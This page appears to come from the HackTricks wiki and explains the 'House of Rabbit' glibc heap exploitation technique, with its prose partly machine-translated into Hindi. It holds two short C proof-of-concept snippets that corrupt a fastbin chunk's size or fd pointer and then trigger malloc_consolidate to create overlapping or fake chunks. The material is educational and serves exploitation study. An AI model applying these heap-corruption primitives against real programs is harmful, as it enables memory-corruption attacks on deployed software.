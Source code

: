 # House of Rabbit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Requirements

1. **तेज बिन fd पॉइंटर या आकार को संशोधित करने की क्षमता**: इसका मतलब है कि आप तेज बिन में एक चंक के आगे के पॉइंटर या उसके आकार को बदल सकते हैं।
2. **`malloc_consolidate` को ट्रिगर करने की क्षमता**: यह एक बड़े चंक को आवंटित करके या शीर्ष चंक को मर्ज करके किया जा सकता है, जो हीप को चंक्स को समेकित करने के लिए मजबूर करता है।

### Goals

1. **ओवरलैपिंग चंक्स बनाना**: एक चंक को दूसरे के साथ ओवरलैप करने के लिए, जिससे आगे की हीप हेरफेर की अनुमति मिल सके।
2. **नकली चंक्स बनाना**: आवंटक को एक नकली चंक को हीप संचालन के दौरान एक वैध चंक के रूप में मानने के लिए धोखा देना।

## Steps of the attack

### POC 1: Modify the size of a fast bin chunk

**Objective**: Create an overlapping chunk by manipulating the size of a fastbin chunk.

* **Step 1: Allocate Chunks**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
हम 0x40 बाइट्स के दो टुकड़े आवंटित करते हैं। इन टुकड़ों को मुक्त करने के बाद फास्ट बिन सूची में रखा जाएगा।

* **चरण 2: टुकड़े मुक्त करें**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
हम दोनों चंक को फ्री करते हैं, उन्हें फास्टबिन सूची में जोड़ते हैं।

* **Step 3: Modify Chunk Size**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
हम `chunk1` के आकार मेटाडेटा को 0xa1 में बदलते हैं। यह संकुचन के दौरान आवंटक को धोखा देने के लिए एक महत्वपूर्ण कदम है।

* **Step 4: Trigger `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Allocating a large chunk triggers the `malloc_consolidate` function, merging small chunks in the fast bin. The manipulated size of `chunk1` causes it to overlap with `chunk2`.

After consolidation, `chunk1` overlaps with `chunk2`, allowing for further exploitation.

### POC 2: Modify the `fd` pointer

**Objective**: Create a fake chunk by manipulating the fast bin `fd` pointer.

* **Step 1: Allocate Chunks**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**व्याख्या**: हम दो टुकड़े आवंटित करते हैं, एक छोटा और एक बड़ा, ताकि नकली टुकड़े के लिए हीप सेट किया जा सके।

* **चरण 2: नकली टुकड़ा बनाएं**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
हम `chunk2` में नकली चंक मेटाडेटा लिखते हैं ताकि छोटे चंक्स का अनुकरण किया जा सके।

* **चरण 3: `chunk1` को मुक्त करें**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**व्याख्या**: हम `chunk1` को मुक्त करते हैं, इसे फास्टबिन सूची में जोड़ते हैं।

* **चरण 4: `chunk1` का `fd` संशोधित करें**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**व्याख्या**: हम `chunk1` के फॉरवर्ड पॉइंटर (`fd`) को हमारे फेक चंक की ओर इंगित करने के लिए बदलते हैं जो `chunk2` के अंदर है।

* **चरण 5: `malloc_consolidate` को ट्रिगर करें**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Allocating a large chunk again triggers `malloc_consolidate`, which processes the fake chunk.

The fake chunk becomes part of the fastbin list, making it a legitimate chunk for further exploitation.

### Summary

The **House of Rabbit** technique involves either modifying the size of a fast bin chunk to create overlapping chunks or manipulating the `fd` pointer to create fake chunks. This allows attackers to forge legitimate chunks in the heap, enabling various forms of exploitation. Understanding and practicing these steps will enhance your heap exploitation skills.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
